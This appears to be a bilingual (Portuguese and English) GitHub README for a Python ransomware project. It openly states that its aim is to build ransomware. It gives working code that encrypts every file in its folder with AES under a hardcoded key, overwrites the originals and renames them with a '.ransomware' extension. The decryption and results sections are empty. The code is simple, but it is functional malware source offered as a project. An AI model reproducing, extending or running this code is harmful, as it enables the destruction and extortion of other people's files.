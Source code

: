 # Projeto em Python de um Ransomware (PT-BR)

### Funcionamento

- O intuito deste projeto é criar um Ransomware que criptografe arquivos presentes na pasta onde o Malware está.

- Este Ransomware é dividido em dois executaveis, um deles terá a função de criptografar os arquivos e o outro terá o objetivo de descriptografa-los futuramente.

### Código de Criptografia

- O executavel abre todos os arquivos presentes na pasta onde ele se encontra, verificando se já não estão criptografados ou se não são os próprios executaveis.

- Após abrir cada arquivo presente na pasta ele copia os dados e os criptografa, reescrevendo em seguida o arquivo. Ele também substitui a estenção do arquivo para ".ransomware".

```python
import os
import pyaes

for name in os.listdir("./"):
    if name != "decrypt.py" and name != "encrypt.py":
        with open(name, "rb") as file:
            file_data = file.read()

        key = b"secretencryptkey"
        aes = pyaes.AESModeOfOperationCTR(key)

        data_encrypt = aes.encrypt(file_data)

        with open(name, "wb") as file:
            file.write(data_encrypt)

        os.rename("./{}".format(name), "./{}.ransomware".format(name))
```

- A chave de criptografia utilizada foi "secretencryptkey", essa chave será utilizada futuramente durante a descriptografia.

### Código de Descriptografia

- 

### Resultados

- 

# Ransomware Project in Python (EN-US)

### Functionality

- The purpose of this project is to create a Ransomware that encrypts files present in the folder where the Malware is.

- This Ransomware is divided into two executables, one of which will have the function of encrypting the files and the other will have the purpose of decrypting them in the future.

### Encryption Code

- The executable opens all the files in the folder where it is located, checking whether they are already encrypted or whether they are not the executables themselves.

- After opening each file in the folder, it copies the data and encrypts it and then rewrites the file. It also replaces the file extension with ".ransomware".

```python
import os
import pyaes

for name in os.listdir("./"):
    if name != "decrypt.py" and name != "encrypt.py":
        with open(name, "rb") as file:
            file_data = file.read()

        key = b"secretencryptkey"
        aes = pyaes.AESModeOfOperationCTR(key)

        data_encrypt = aes.encrypt(file_data)

        with open(name, "wb") as file:
            file.write(data_encrypt)

        os.rename("./{}".format(name), "./{}.ransomware".format(name))
```

- The encryption key used was "secretencryptkey", this key will be used later during decryption.

### Decryption Code

- 

### Results

- 
